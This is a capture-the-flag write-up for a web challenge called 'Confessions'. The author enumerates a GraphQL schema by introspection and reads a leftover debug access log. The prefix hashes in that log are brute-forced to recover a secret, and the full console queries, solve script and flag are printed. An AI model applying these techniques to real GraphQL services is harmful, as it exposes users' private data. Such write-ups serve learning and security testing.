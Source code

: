 # Confessions

## Task

Categories: web

Difficulty: easy

Someone confessed their dirtiest secret on this new website: https://confessions.flu.xxx
Can you find out what it is?

## Solution

We can enter a title and message to confess. We can publish this message. We have a preview that shows us the hash of the message and the message itself.

Looking at the source code of the page we find the javascript.

On input it uses a GraphQL endpoint to fetch the information.

```javascript
const gql = async (query, variables={}) => {
    let response = await fetch('/graphql', {
        method: 'POST',
        headers: {
            'content-type': 'application/json',
        },
        body: JSON.stringify({
            operationName: null,
            query,
            variables,
        }),
    });
    let json = await response.json();
    if (json.errors && json.errors.length) {
        throw json.errors;
    } else {
        return json.data;
    }
};
```

There is an example call:

```javascript
gql('mutation Q($id: String) { confessionWithMessage(id: $id) { title, hash, message } }', { id });
```

I never used GraphQL before so the first thing I did was finding out how to
 - not limit the query to a specific hash or id (didn't work)
 - view the structure of the stored data

 So I found this: https://graphql.org/learn/introspection/

 Using `{ __schema { types { name fields { name description } } } }` with `gql` in the developer console reveals some interesting information:
 - There is a `Confession` and `Access` type
 - The `Query` type has an additional `accessLog` field with the description `Show the resolver access log. TODO: remove before production release`
 - The `Access` type has `timestamp` `name` and `args` fields

 Let's query the `accessLog`:

 ```javascript
 var data = await gql('{ accessLog { timestamp name args } }', {  });
 data.accessLog.forEach(x => console.log(x));
 ```

 We see that all important information is redacted. Let's filter out the hashes:

 ```javascript
 var hashes = new Set(data.accessLog.map(x => JSON.parse(x.args).hash).filter(x => x));
 hashes.forEach(hash => gql('query Q($hash: String) { confession(hash: $hash) { id, title, hash } }', { hash }).then(d => console.log(d.confession)));
 ```

 We see that `id` is always null. We also see that there are multiple entries with the title flag and a hash, our own tests are also visible. We didn't publish a single one, but there are multiple entries. While we were typing the hash was constantly changing.

 Maybe the first hash is the hash of the first char, the second hash with two chars and so on. Let's verify that real quick:

 ```python
>>> from hashlib import sha256
>>> alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-"
>>> for c in alphabet:
...   if sha256(c.encode("utf-8")).hexdigest() == "252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111":
...     print(c)
f
 ```

 Okay, let's write a script to do the work for us and bruteforce the flag.

 First, extract all hashes:

 ```javascript
var out = [];
for (let hash of hashes) {
  let data = await gql('query Q($hash: String) { confession(hash: $hash) { id, title, hash } }', { hash });
  if (data.confession.title === "Flag") {
    out[out.length] = data.confession.hash;
  }
};
// wait some time
console.log(out);
```

Now we can export that to python and write a script:

```python
from hashlib import sha256

hashes = [
"252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111",
"593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6",
"c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83",
"807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87",
"0577f6995695564dbf3e17ef36bf02ee73ba10ab300caf751315615e0fc6dd37",
"9271dd87ec1a208d1a6b25f8c4e3b21e36c75c02b62fafc48cf1327bac220e48",
"95f5e39cb28767940602ce3241def53c42d399ae1daf086c9b3863d50a640a81",
"62663931ff47a4c77e88916d96cad247f6e2c352a628021a1b60690d88625d75",
"5534607d1f4ee755bc11d75d082147803841bc3959de77d6159fca79a637ac77",
"52a88481cc6123cc10f4abb55a0a77bf96d286f457f6d7c3088aaf286c881b76",
"7ffcb9b3a723070230441d3c7aee14528ca23d46764c78365f5fdf24d0cdef53",
"532e4cecd0320ccb0a634956598c900170bd5c6f1f22941938180fe719b61d37",
"a4b24c8f4f14444005c7023e9d2f75199201910af98aaef621dc01cb6e63f1d1",
"1092c20127f3231234eadf0dd5bee65b5f48ffbdc94e5bf928e3605781a8c0d1",
"1e261929cc13a0e9ecf66d3e6508c14b79c305fa10768b232088e6c2bfb3efa3",
"0bb629dfb5bf8a50ef20cfff123756005b32a6e0db1486bd1a05b4a7ddfd16c7",
"0141c897af69e82bc9fde85a4c99b6e693f6eb390b9abdeda4a34953f82efa4b",
"c20ee107ba4d41370cc354bb4662f3efb6b7c14e7b652394aaa1ad0341e4a1c9",
"d6b977c1deb6179c7b9ac11fb2ce231b100cf1891a1102d02d8f7fbea057b8a0",
"fb7dc9b1be6477cea0e23fdc157ff6b67ce075b70453e55bb22a6542255093f1",
"70b652dad63cabed8241c43ba5879cc6d509076f778610098a20154eb8ac1b89",
"26f4fc4aba06942e5e9c5935d78da3512907fe666e1f1f186cf79ac14b82fcad",
"c31c26dbbcf2e7c21223c9f80822c6b8f413e43a2e95797e8b58763605aaca0d",
"eb992e46fb842592270cd9d932ba6350841966480c6de55985725bbf714a861d",
"c21af990b2bd859d99cfd24330c859a4c1ae2f13b0722962ae320a460c5e0468",
"ebf2b799b6bf20653927092dae99a6b0fc0094abc706ca1dce66c5d154b4542d",
"07a272d52750c9ab31588402d5fb8954e3e5174fcab9291e835859a5f8f34cf9",
"5a047cba5d6e0cf62d2618149290180e1476106d71bd9fdb7b1f0c41437c2ff5"
]

chars = [chr(i).encode("utf-8") for i in range(256)]
solve = b''

for hash in hashes:
  for char in chars:
    if sha256(solve + char).hexdigest() == hash:
      solve += char

print(solve.decode("utf-8"))
```

Running it:

```bash
$ python solve.py
flag{but_pls_d0nt_t3ll_any1}
```
